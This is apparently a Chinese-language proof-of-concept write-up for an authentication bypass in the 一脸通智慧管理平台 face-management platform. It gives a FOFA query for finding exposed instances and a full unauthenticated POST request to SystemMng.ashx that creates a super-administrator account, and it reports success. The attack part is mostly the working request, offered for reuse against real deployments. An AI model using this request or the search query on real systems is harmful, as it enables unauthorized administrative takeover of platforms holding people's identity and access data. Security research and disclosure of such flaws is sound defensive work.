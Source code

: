 # 一脸通智慧管理平台权限绕过漏洞

## 1.漏洞描述

一脸通智慧管理平台1.0.55.0.0.1及其以下版本SystemMng.ashx接口处存在权限绕过漏洞，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户。

## 2.搜索语法

```plain
fofa：title="欢迎使用脸爱云 一脸通智慧管理平台"
```

## 3.漏洞复现

```plain
POST /SystemMng.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en
Content-Length: 174

operatorName=test123456&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/df495458-fd00-4686-8864-4c2efb98c864)


成功创建账号，登陆后台可以看到自己创建的账号拥有管理员权限

![image](https://github.com/hardog123/poc-exp/assets/170905460/a68b9e83-6e96-4449-a315-c0fc2cb629de)

